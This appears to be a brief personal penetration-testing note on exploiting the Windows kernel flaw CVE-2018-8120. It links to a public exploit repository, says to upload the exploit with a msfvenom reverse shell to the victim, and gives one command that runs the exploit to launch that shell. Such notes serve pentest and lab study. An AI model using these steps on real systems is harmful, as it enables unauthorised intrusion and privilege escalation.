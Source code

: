 https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120

Upload file along with a msfvenom reverse shell to victim.

![[4._File Transfers#Certutil]]

```batch - wiudows
./x86.exe reverse86.exe
```









